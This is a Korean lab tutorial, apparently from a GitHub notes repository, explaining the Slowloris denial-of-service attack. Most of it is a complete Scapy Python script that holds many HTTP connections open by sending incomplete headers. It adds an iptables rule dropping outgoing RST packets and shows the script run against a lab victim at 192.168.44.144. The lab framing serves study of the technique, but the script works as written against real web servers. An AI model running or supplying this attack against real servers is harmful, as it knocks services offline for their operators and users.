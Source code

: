 # slowloris 공격 기법

DoS 공격 기법 중 하나  
요청 헤더의 끝이 개행문자로 끝나는 요청의 구조를 이용한 공격  
https://crefunx.tistory.com/search/slowloris

요청 헤더의 끝을 나타내는 개행문자를 서버로 전달하지 않고, 헤더를 계속해서 전달해, 연결을 유지시키는 공격 기법

```bash
# slowloris 공격을 위한 파이썬 파일을 작성한다
vim slowloris.py
```

slowloris.py

```python
#! /usr/bin/env python

import sys
import time
from scapy.all import *

def slowloris (target, num) :
    print "start connect > {}".format(target)
    syn = []
    for i in range(num) :
        syn.append(IP(dst=target)/TCP(sport=RandNum(1024,65535),dport=80,flags='S'))
    syn_ack = sr(syn, verbose=0)[0]

    ack = []
    for sa in syn_ack :
        payload = "GET /{} HTTP/1.1\r\n".format(str(RandNum(1,num))) +\
        "Host: {}\r\n".format(target) +\
        "User-Agent: Mozilla/4.0\r\n" +\
        "Content-Length: 42\r\n"

        ack.append(IP(dst=target)/TCP(sport=sa[1].dport,dport=80,flags="A",seq=sa[1].ack,ack=sa[1].seq+1)/payload)

    answer = sr(ack, verbose=0)[0]
    print "{} connection success!\t Fail: {}".format(len(answer), num-len(answer))
    print "Sending data \"X-a: b\\r\\n\".."

    count = 1
    while True :
        print "{} time sending".format(count)
        ack = []
        for ans in answer :
            ack.append(IP(dst=target)/TCP(sport=ans[1].dport,dport=80,flags="PA",seq=ans[1].ack,ack=ans[1].seq)/"X-a: b\r\n")
        answer = sr(ack, inter=0.5, verbose=0)[0]
        time.sleep(10)
        count += 1

if __name__ == "__main__" :
    if len(sys.argv) < 3 :
        print "Usage: {} <target> <number of connection>".format(sys.argv[0])
        sys.exit(1)
    slowloris(sys.argv[1], int(sys.argv[2]))
```

```bash
# kali2 공격자 pc에서 rst가 나가는 것을 막는다. kali2에서 아래 명령어를 작업
iptables -A OUTPUT -p tcp --tcp-flags RST RST -j DROP
```

![scapy iptables -A OUTPUT -p tcp --tcp-flags RST RST -j DROP](./imgs/scapy11.png)

### 희생자 PC에서 80포트를 열어준다

```bash
# apache서버를 실행한다
service apache2 restart
```

```bash
# 실행권한을 준다
chmod 755 slowloris.py

# 50번 공격 실행 희생자(192.168.44.144)
./slowloris.py 192.168.44.144 50
```

kali#1(victim) 웹 브라우저를 열어 상태를 확인한다

> localhost/server-status

![slowloris](./imgs/slowloris.png)

```bash
# wireshark 실행
wireshark
```

![slowloris](./imgs/slowloris1.png)

![slowloris](./imgs/slowloris2.png)
TCP 헤더가 증가 한 것을 볼 수 있다
